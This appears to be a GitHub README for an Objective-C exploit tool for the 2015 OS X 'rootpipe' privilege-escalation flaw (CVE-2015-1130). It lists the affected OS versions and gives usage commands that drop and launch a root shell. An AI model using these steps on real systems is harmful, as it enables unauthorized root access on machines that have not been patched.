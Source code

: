 ## rootpipo

Objective-C variant of [CVE-2015-1130](https://truesecdev.wordpress.com/2015/04/09/hidden-backdoor-api-to-root-privileges-in-apple-os-x/), aka _rootpipe_.

`rootpipe` works on OS X 10.9 and OS X < 10.10.3.
`rootpipe-lagacy` works on OS X 10.7 and 10.8.
`rootshell` is a handy root shell launcher.


### Usage

	$ ./rootpipe rootshell /tmp/pipo
	$ /tmp/pipo
	# id

	$ ./rootpipe-legacy rootshell /tmp/pipo
	$ /tmp/pipo
	# id


### Limitations

`rootpipe-legacy` must be run from a logged in __console__ user with __administrator__ privileges, i.e. not through SSH.


### Thanks

Many thanks to _Emil Kvarnhammar_ for publishing the [exploit](https://truesecdev.wordpress.com/2015/04/09/hidden-backdoor-api-to-root-privileges-in-apple-os-x/).

Many thanks to Apple for not back porting the fix:

> Apple indicated that this issue required a substantial amount of changes on their side, and that they will not back port the fix to 10.9.x and older.

